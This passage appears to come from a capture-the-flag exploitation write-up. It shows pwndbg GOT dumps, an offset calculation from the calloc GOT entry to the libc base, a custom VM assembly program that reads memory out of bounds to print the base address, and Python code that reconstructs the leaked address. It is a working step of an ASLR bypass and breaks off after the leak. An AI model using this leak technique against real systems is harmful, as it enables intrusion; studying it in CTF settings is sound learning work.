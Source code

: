```c
25:0128│  0x7f1fd937a128 (*ABS*@got.plt) —▸ 0x7f1fd9300ed0 (__stpncpy_avx2) ◂— endbr64 
26:0130│  0x7f1fd937a130 (*ABS*@got.plt) —▸ 0x7f1fd9237f00 (__wcscmp_sse2) ◂— endbr64 
27:0138│  0x7f1fd937a138 (_dl_audit_symbind_alt@got.plt) —▸ 0x7f1fd9189250 ◂— endbr64 
28:0140│  0x7f1fd937a140 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
29:0148│  0x7f1fd937a148 (*ABS*@got.plt) —▸ 0x7f1fd921b6d0 (__strrchr_sse2) ◂— endbr64 
2a:0150│  0x7f1fd937a150 (*ABS*@got.plt) —▸ 0x7f1fd921b290 (__strchr_sse2) ◂— endbr64 
2b:0158│  0x7f1fd937a158 (*ABS*@got.plt) —▸ 0x7f1fd9238d00 (__wcschr_sse2) ◂— endbr64 
2c:0160│  0x7f1fd937a160 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
2d:0168│  0x7f1fd937a168 (_dl_rtld_di_serinfo@got.plt) —▸ 0x7f1fd91892b0 ◂— endbr64 
2e:0170│  0x7f1fd937a170 (_dl_allocate_tls@got.plt) —▸ 0x7f1fd91892c0 ◂— endbr64 
2f:0178│  0x7f1fd937a178 (__tunable_get_val@got.plt) —▸ 0x7f1fd93b7dd0 (__tunable_get_val) ◂— endbr64 
30:0180│  0x7f1fd937a180 (*ABS*@got.plt) —▸ 0x7f1fd9239450 (__wcslen_sse4_1) ◂— endbr64 
31:0188│  0x7f1fd937a188 (*ABS*@got.plt) —▸ 0x7f1fd9302080 (__memset_avx2_unaligned) ◂— endbr64 
32:0190│  0x7f1fd937a190 (*ABS*@got.plt) —▸ 0x7f1fd9239630 (__wcsnlen_sse4_1) ◂— endbr64 
33:0198│  0x7f1fd937a198 (*ABS*@got.plt) —▸ 0x7f1fd92f9ac0 (__strcmp_avx2) ◂— endbr64 
34:01a0│  0x7f1fd937a1a0 (_dl_allocate_tls_init@got.plt) —▸ 0x7f1fd9189320 ◂— endbr64 
35:01a8│  0x7f1fd937a1a8 (__nptl_change_stack_perm@got.plt) —▸ 0x7f1fd9189330 ◂— endbr64 
36:01b0│  0x7f1fd937a1b0 (*ABS*@got.plt) —▸ 0x7f1fd92f9870 (__strpbrk_sse42) ◂— endbr64 
37:01b8│  0x7f1fd937a1b8 (_dl_audit_preinit@got.plt) —▸ 0x7f1fd93bb680 (_dl_audit_preinit) ◂— endbr64 
38:01c0│  0x7f1fd937a1c0 (*ABS*@got.plt) —▸ 0x7f1fd921bb70 (__strnlen_sse2) ◂— endbr64 
39:01c8│  0x7f1fd937a1c8 ◂— 0x0
... ↓     2 skipped
```

I've decided to go with `calloc@got[plt]` (not sure why is it here but...). Calculating offset is pretty simple:

```c
pwndbg> dist 0x7f1fd9189080 0x7f1fd9161000
0x7f1fd9189080->0x7f1fd9161000 is -0x28080 bytes (-0x5010 words)
```

We have everything to craft a vm program which will store libc base address in two 32bit registers and print it to us for verification, so we can receive it in python:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc addr
pop r08
sub r08, 0x28080  # offset to libc base
pop r09
# libc base in r09 << 32 | r08

prn r08
prn r09
```

```py
def de(v):
	return unhex(tohex(int(v.decode())))

lo = de(rl())
hi = de(rl())
libc_leak = u64((hi+lo)[::-1])
ls(f"{libc_leak:#x}")
```
